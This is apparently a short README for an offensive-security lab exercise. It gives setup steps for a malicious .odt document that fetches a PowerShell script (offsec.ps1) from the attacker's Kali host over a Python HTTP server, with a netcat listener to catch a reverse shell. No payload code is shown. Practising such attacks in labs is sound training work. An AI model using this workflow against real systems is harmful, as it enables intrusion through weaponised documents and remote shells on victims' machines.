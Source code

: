 ## Instructions
1 - Update .odt file with Kali Station LHOST IP (keep port 80)
2 - Update offsec.ps1 with Kali Station <LHOST_IP> and <LPORT>
3 - Start python server in offsec.ps1 directory: python3 -m http.server 80
4 - Start nc listener: nc -nlvp <LPORT>
